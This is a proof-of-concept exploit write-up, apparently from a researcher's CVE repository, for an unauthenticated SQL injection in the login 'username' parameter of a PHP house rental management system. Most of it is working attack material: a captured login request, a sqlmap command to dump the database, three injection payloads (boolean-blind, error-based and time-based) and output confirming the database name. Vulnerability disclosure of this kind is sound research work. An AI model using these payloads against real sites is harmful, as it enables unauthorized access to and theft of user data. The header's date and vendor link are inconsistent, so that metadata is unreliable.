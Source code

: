 # House Rental Management System - SQL Injection - 1 (Unauthenticated)
+ **Exploit Title:** House Rental Management System - SQL Injection - 1 (Unauthenticated)
+ **Date:** 2024-15-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
House Rental Management System allows SQL Injection via the 'username' parameter at "http://localhost/rental/login.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/rental/login.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /rental/ajax.php?action=login HTTP/1.1
Host: localhost
Content-Length: 27
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/rental/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=1uglgqsdr43o5j4805l7v9kg7d
Connection: close

username=test&password=test
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database.
```
sqlmap -r r.txt -p username --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 6595=6595-- Zxii&password=test

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=test' AND (SELECT 7493 FROM(SELECT COUNT(*),CONCAT(0x7170717a71,(SELECT (ELT(7493=7493,1))),0x7170716271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Pmrg&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 6993 FROM (SELECT(SLEEP(5)))lxxU)-- OQDx&password=test
---
[16:47:40] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[16:47:40] [INFO] fetching current database
[16:47:40] [INFO] retrieved: 'house_rental_latest'
current database: 'house_rental_latest'
```
+ current database: `house_rental_latest`

![Ekran görüntüsü 2024-05-16 000355](https://github.com/BurakSevben/CVEs/assets/117217689/27b7108b-470f-4a21-9429-f6b3a135aa90)

